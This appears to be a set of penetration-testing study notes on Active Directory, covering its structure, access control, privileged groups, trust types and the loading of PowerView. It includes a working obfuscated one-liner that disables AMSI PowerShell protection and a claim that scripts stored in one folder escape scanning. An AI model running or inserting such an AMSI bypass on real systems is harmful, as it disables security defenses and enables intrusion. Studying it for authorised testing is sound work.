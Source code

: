 # Active Directory

### Elements

* Schema: definition of an object and its properties
* Global catalog (DC): provides information about all objects in the directory
* Replication Service: synchronizes information about objects between all Domain Controllers
* Forest: a security boundary that includes several domains
* Domain: identified as a SID, contains several Organization Units
* Organization Unit (OU): the smallest container within a domain. Can be used to store users, groups or computers.

### Access control

Performed through a combination of token containing identity and privileges of user and security descriptors of the targeted object which include:

* SID: security identity of the owner of object
* DACL: discretionary ACL - access permissions of the client on the object
* SASL: system ACL - logging and audit policies by user
* ACE: access control entity - the single access rule that composes the list of rules used by DACL and SACL to manage accesses

### User groups

| ID  | Name               | Description                                                             |
| --- | ------------------ | ----------------------------------------------------------------------- |
| 512 | Domain Admins      | Grants administrative privilege over the whole domain                   |
| 549 | Server Operators   | Grants administrative privilege on the DC                               |
| 551 | Backup Operators   | Allows to access any file regardless of permission and performs backups |
| 548 | Account Operators  | Allows to create or edit user accounts                                  |
| 513 | Domain Users       | Inclues all users                                                       |
| 515 | Domain Computers   | Includes all machine accounts                                           |
| 516 | Domain Controllers | Includes all DCs                                                        |

### Trust

Link between two domains that allows objects to share information. Can occur between father/child or horizontally across the forest boundary.&#x20;

* One Way trust: users in the trusted domain can access resources on the trusting domain but the reverse is not true
* Bi-directional trust: users in mutually trusting forests can share and access to both domains
* External: bi-directional and non transitive trust between domains on different forests
* Default:  two-way transitive trust between father-child elements
* Forest: trust established between root elements of forest. Can be one or two ways, transitive or non transitive
* Shortcut: can be one or two way, used to ease communications within large structures

Bidirectional Default trusts can always be enumerated



### AMSI Bypass

Obfuscated strings to disable AMSI PowerShell protection

```
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```

### Including External Scripts

By storing PS1 scripts under C:\AD\Tools they will not be scanned&#x20;

#### PowerView

```
. .\PowerView.ps1
```

#### LDAP Module

```
Import-Module .\Microsoft\ActiveDirectory.Management.dll
Import-Module .\ActiveDirectory\ActiveDirectory.psdl
```
